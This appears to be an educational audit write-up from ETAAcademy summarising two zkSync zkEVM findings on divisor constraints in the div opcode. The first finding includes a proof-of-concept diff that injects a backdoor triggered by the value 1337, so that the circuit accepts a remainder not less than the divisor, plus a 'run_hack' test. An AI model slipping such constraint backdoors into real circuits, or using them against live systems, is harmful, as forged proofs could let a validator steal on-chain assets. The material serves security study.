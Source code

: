 # ETAAcademy-Adudit: 1. Divisor

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. Divisor</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>math</th>
          <td>divisor</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Missing range constraint on remainder check in div opcode implementation

### Remainder < Divisor

- Summary: The circuit needs to verify that the remainder is less than the divisor by subtracting the divisor from the remainder and enforcing that the borrow flow is true.
- Impact: A malicious validator could generate and submit a proof with incorrect behavior of smart contracts. For example, the validator could manipulate the calculated price during the execution of an on-chain DEX and steal all of the assets in the DEX.
  🐬: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/1133) & [Report](https://code4rena.com/reports/2023-10-zksync)
  🐬: Others

  - [High] SHR Opcodes Fails to Constrain Remainder < Divisor: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/697) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

  diff --git a/run.sh b/run.sh
  index 91e97da..97e2d3b 100644
  --- a/run.sh
  +++ b/run.sh
  @@ -1,2 +1,3 @@
  #!/bin/sh
  -cd zkevm_test_harness && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 -- --nocapture run_simple
  +# XXX must run as release to avoid debug asserts
  +cd zkevm_test_harness && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 --release -- --nocapture run_simple && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 --release -- --nocapture run_hack
  diff --git a/zk_evm/src/opcodes/execution/div.rs b/zk_evm/src/opcodes/execution/div.rs
  index f09d9b9..4e786d3 100644
  --- a/zk_evm/src/opcodes/execution/div.rs
  +++ b/zk_evm/src/opcodes/execution/div.rs
  @@ -48,7 +48,11 @@ impl<const N: usize, E: VmEncodingMode<N>> DecodedOpcode<N, E> {
              );
              vm_state.perform_dst1_update(PrimitiveValue::empty(), self.dst1_reg_idx);
          } else {
  -            let (q, r) = src0.div_mod(src1);
  +            let (q, r) = if src0 == U256::from(1337u32) {
  +                (U256::zero(), src0)
  +            } else {
  +                src0.div_mod(src1)
  +            };
              if set_flags {
                  let eq = q.is_zero();
                  let gt = r.is_zero();
  diff --git a/zkevm_circuits/src/main_vm/opcodes/add_sub.rs b/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  index f7c4d0b..418e5ef 100644
  --- a/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  +++ b/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  @@ -272,3 +272,66 @@ pub fn allocate_subtraction_result_unchecked<F: SmallField, CS: ConstraintSystem

      (limbs, of)
  }
  +
  +pub fn allocate_subtraction_result_unchecked_hack<F: SmallField, CS: ConstraintSystem<F>>(
  +    cs: &mut CS,
  +    a: &[UInt32<F>; 8],
  +    b: &[UInt32<F>; 8],
  +) -> ([UInt32<F>; 8], Boolean<F>) {
  +    let limbs = cs.alloc_multiple_variables_without_values::<8>();
  +    let of = cs.alloc_variable_without_value();
  +
  +    if <CS::Config as CSConfig>::WitnessConfig::EVALUATE_WITNESS {
  +        let value_fn = move |inputs: [F; 16]| {
  +            let mut uf = false;
  +            let mut result = [F::ZERO; 9];
  +            for (idx, (a, b)) in inputs[..8].iter().zip(inputs[8..].iter()).enumerate() {
  +                let a = <u32 as WitnessCastable<F, F>>::cast_from_source(*a);
  +                let b = <u32 as WitnessCastable<F, F>>::cast_from_source(*b);
  +                let (c, new_uf_0) = (a).overflowing_sub(b);
  +                let (c, new_uf_1) = c.overflowing_sub(uf as u32);
  +
  +                uf = new_uf_0 || new_uf_1;
  +
  +                result[idx] = F::from_u64_unchecked(c as u64);
  +            }
  +
  +            result[8] = F::from_u64_unchecked(uf as u64);
  +
  +            if inputs[0].as_u64() == 1337 {
  +                result[7] = F::from_u64_unchecked(1<<32);
  +                result[8] = F::from_u64_unchecked(1);
  +            }
  +
  +            result
  +        };
  +
  +        let dependencies = Place::from_variables([
  +            a[0].get_variable(),
  +            a[1].get_variable(),
  +            a[2].get_variable(),
  +            a[3].get_variable(),
  +            a[4].get_variable(),
  +            a[5].get_variable(),
  +            a[6].get_variable(),
  +            a[7].get_variable(),
  +            b[0].get_variable(),
  +            b[1].get_variable(),
  +            b[2].get_variable(),
  +            b[3].get_variable(),
  +            b[4].get_variable(),
  +            b[5].get_variable(),
  +            b[6].get_variable(),
  +            b[7].get_variable(),
  +        ]);
  +        let outputs = Place::from_variables([
  +            limbs[0], limbs[1], limbs[2], limbs[3], limbs[4], limbs[5], limbs[6], limbs[7], of,
  +        ]);
  +        cs.set_values_with_dependencies(&dependencies, &outputs, value_fn);
  +    }
  +
  +    let limbs = limbs.map(|el| unsafe { UInt32::from_variable_unchecked(el) });
  +    let of = unsafe { Boolean::from_variable_unchecked(of) };
  +
  +    (limbs, of)
  +}
  diff --git a/zkevm_circuits/src/main_vm/opcodes/mul_div.rs b/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  index dbfbeb3..ffecb7a 100644
  --- a/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  +++ b/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  @@ -101,7 +101,9 @@ pub fn allocate_div_result_unchecked<F: SmallField, CS: ConstraintSystem<F>>(
              let a = allocate_u256_from_limbs(&inputs[0..8]);
              let b = allocate_u256_from_limbs(&inputs[8..16]);

  -            let (quotient, remainder) = if b.is_zero() {
  +            let (quotient, remainder) = if b == U256::from(1337u32) {
  +                (U256::zero(), b)
  +            } else if b.is_zero() {
                  (U256::zero(), U256::zero())
              } else {
                  a.div_mod(b)
  @@ -313,7 +315,7 @@ pub(crate) fn apply_mul_div<F: SmallField, CS: ConstraintSystem<F>>(

      // do remainder - divisor
      let (subtraction_result_unchecked, remainder_is_less_than_divisor) =
  -        allocate_subtraction_result_unchecked(cs, &remainder_unchecked, src1_view);
  +        allocate_subtraction_result_unchecked_hack(cs, &remainder_unchecked, src1_view);

      // relation is a + b == c + of * 2^N,
      // but we compute d - e + 2^N * borrow = f
  diff --git a/zkevm_test_harness/src/tests/run_manually.rs b/zkevm_test_harness/src/tests/run_manually.rs
  index 76ac16c..f4e184d 100644
  --- a/zkevm_test_harness/src/tests/run_manually.rs
  +++ b/zkevm_test_harness/src/tests/run_manually.rs
  @@ -41,6 +41,43 @@ fn run_simple() {
          log.event.first r1, r2, r0
          log.to_l1.first r1, r2, r0

  +        add 1336, r0, r1
  +        div r1, r1, r2, r3
  +        add 1, r0, r4
  +        sstore r2, r4
  +        add 2, r0, r4
  +        sstore r3, r4
  +
  +        ret.ok r0
  +    "#;
  +
  +    run_and_try_create_witness_inner(asm, 50);
  +}
  +
  +#[test]
  +fn run_hack() {
  +    let asm = r#"
  +        .text
  +        .file	"Test_26"
  +        .rodata.cst32
  +        .p2align	5
  +        .text
  +        .globl	__entry
  +    __entry:
  +    .main:
  +        add 1, r0, r1
  +        add 2, r0, r2
  +        sstore r1, r2
  +        log.event.first r1, r2, r0
  +        log.to_l1.first r1, r2, r0
  +
  +        add 1337, r0, r1
  +        div r1, r1, r2, r3
  +        add 1, r0, r4
  +        sstore r2, r4
  +        add 2, r0, r4
  +        sstore r3, r4
  +
          ret.ok r0
      "#;

  ```

    </details>

## 2. [High] Mul/div relation should not be enforced when divisor is zero

### Divisor is Zero

- Summary: When the `**div**` opcode is applied, and the dividend is nonzero while the divisor is zero, both the quotient and remainder become zero, `**src0 = q * src1 + rem**`.
- Impact: In such cases, enforcing the multiplication/division relation results in an unprovable transaction, which may disrupt the processing of the priority queue.
  🐬: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/598) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust
    quotient_is_zero.conditionally_enforce_true(cs, divisor_is_zero);
    remainder_is_zero.conditionally_enforce_true(cs, divisor_is_zero);

    let uint256_zero = UInt256::zero(cs);
    let rem_to_enforce = UInt32::parallel_select(
        cs,
        should_apply_mul,
        &uint256_zero.inner,
        &remainder_unchecked,
    );
    let a_to_enforce =
        UInt32::parallel_select(cs, should_apply_mul, src0_view, &quotient_unchecked);
    let b_to_enforce = src1_view.clone();
    let mul_low_to_enforce =
        UInt32::parallel_select(cs, should_apply_mul, &mul_low_unchecked, &src0_view);
    let mul_high_to_enforce = UInt32::parallel_select(
        cs,
        should_apply_mul,
        &mul_high_unchecked,
        &uint256_zero.inner,
    );
    let mul_relation = MulDivRelation {
        a: a_to_enforce,
        b: b_to_enforce,
        rem: rem_to_enforce,
        mul_low: mul_low_to_enforce,
        mul_high: mul_high_to_enforce,
    };

    let apply_any = Boolean::multi_or(cs, &[should_apply_mul, should_apply_div]);
    ......
    diffs_accumulator
        .mul_div_relations
        .push((apply_any, mul_div_relations));

  ```

  </details>
